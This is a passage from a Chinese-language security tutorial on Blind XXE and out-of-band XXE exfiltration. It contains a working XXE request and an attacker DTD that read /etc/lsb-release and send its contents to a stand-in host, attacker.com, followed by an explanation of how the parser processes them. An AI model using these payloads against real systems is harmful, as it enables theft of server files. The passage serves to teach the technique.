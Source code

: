 ## 6.Blind XXE

### 6.1Blind XXE与OOB-XXE

一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到Payload的执行结果或现象（**带内** [XML外部实体（XXE](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)），即攻击者可以发送带有XXE有效负载的请求并从包含某些数据的Web应用程序获取响应），无回显的情况又称为blind xxe，可以使用外带数据通道提取数据即带外XML外部实体（OOB-XXE）。

以下是攻击者如何利用参数实体使用带外（OOB）技术窃取数据的示例。 

request:

```
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>

```

 攻击者DTD

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;

```

XML解析器将首先处理`%file`加载文件的参数实体`/etc/lsb-release`。接下来，XML解析器将在**http://attacker.com/evil.dtd**向攻击者的DTD发出请求。

一旦处理了攻击者的DTD，`all%`参数实体将创建一个名为**＆send**的**通用**实体**;** ，其中包含一个包含文件内容的URL（例如http://attacker.com/?collect=DISTRIB_ID=Ubuntu ...）。最后，一旦URL构造的`&send`; 实体由解析器处理，解析器向攻击者的服务器发出请求。然后，攻击者可以在其结尾处记录请求，并从记录的请求中重建文件的内容。

知道何为Blind XXE后，这里再分析一下原理：

**Blind XXE原理** 

带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系。 

直接在内部实体定义中引用另一个实体的方法如下，但是这种方法行不通。 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "http://127.0.0.1/?%param1">
%param2;
]>
```

